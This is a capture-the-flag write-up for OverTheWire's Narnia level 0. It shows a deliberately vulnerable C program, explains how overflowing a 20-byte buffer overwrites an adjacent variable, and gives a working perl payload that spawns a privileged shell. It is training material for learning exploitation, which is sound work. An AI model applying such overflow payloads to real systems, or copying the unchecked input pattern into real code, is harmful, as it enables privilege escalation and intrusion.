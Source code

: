 # username / password
ssh narnia0@narnia.labs.overthewire.org -p2226

narnia0 / narnia0
# Concept
* variable overwrite via buffer overflow
# Method of solve
* the binary's source is this:
```
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```
* in the binary, the `val` variable is set to `0x41414141`
* if the `val` variable is set to `0xdeadbeef`, then the `sh` binary is run with the permissions of the file owner, which is `narnia1`
* if we can get access as `narnia1`, then we read their password and get access to the next level
* the `buf` variable, which holds our user input, has a maximum size of 20 characters
* any user input in excess of 20 characters will over the buffer and overwrite other memory addresses
* from testing, we see that even sending 20 characters will overflow a null byte character `00` into the val variable
* so this payload will get us our interactive shell as the `narnia1` user:
```
(perl -e 'print "A" x 20 . "\xef\xbe\xad\xde"';cat) | ./narnia0
```
* we're using `perl` to send a number of `A` characters to fill the buffer, then append the desired hex bytes `0xdeadbeef`
* the reason we are sending the bytes into reverse order is because the binary uses little endian byte order
* the reason why we need to send the `cat` command in a wrapper with the `perl` command is because we need to keep the stdin of the shell open so that we can send commands to the shell

